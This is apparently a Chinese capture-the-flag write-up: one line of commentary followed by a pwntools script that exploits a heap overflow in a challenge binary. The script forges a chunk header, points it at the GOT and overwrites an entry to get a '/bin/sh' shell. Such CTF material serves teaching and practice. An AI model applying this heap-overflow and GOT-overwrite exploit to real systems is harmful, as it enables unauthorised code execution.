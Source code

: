 一开始我还以为是一个纯纯的unlink，后来发现溢出就完事了。(我还傻傻的去问libc）

```php
from pwn import *

context.log_level = 'debug'
# p = remote('123.57.69.203',5810)
p = process('./attachment-38')
#----------------------------------------------------------------------
ru = lambda x : p.recvuntil(x,timeout=0.2)
sd = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
it = lambda :p.interactive()
ru7f = lambda : u64(ru('\x7f')[-6:].ljust(8,b'\x00'))
rv6 = lambda : u64(rv(6)+b'\x00'*2)
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
bp = lambda src=None : attach(p,src)
sym = lambda name : libc.sym[name]
#----------------------------------------------------------------------

def add(idx, size, data):
    sl("add")
    ru("Index:")
    sl(str(idx))
    ru("Size:")
    sl(str(size))
    ru("Data:")
    sl(data)

def dele(idx):
    sl("remove")
    ru("Index:")
    sl(str(idx))

# attach(p)
add(0, 0x40, '')
add(1, 0x80, '')
add(2, 0x80, '')
add(3,0x20,'/bin/sh\x00')
add(4, 0x20, 'protect')

dele(0)
dele(2)
dele(1)

add(0, 0x40, 'a' * 0x40 + p64(0) + p64(0x91) + p64(0x601018))

add(1, 0x80, p64(0x6001030))

add(1, 0x80, p64(0x6001030)+p64(0x000000000400896))

sl('/bin/sh')
# dele(3)
it()
```
